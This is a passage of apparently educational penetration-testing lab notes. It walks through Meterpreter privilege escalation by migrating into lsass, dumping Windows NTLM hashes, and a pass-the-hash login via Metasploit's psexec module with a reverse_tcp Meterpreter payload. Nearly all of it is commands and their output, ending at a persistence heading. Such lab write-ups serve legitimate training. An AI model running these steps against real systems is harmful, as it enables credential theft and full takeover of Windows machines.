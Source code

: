 ### Privilege Escalation

```bash
pgrep lsass
migrate 780
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### [Pass-the-hash - PSExec](https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/)

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
exit
search psexec
use exploit/windows/smb/psexec
options
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```

```bash
getuid
	Server username: NT AUTHORITY\SYSTEM

sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

------

## Lab 6 - Persistence
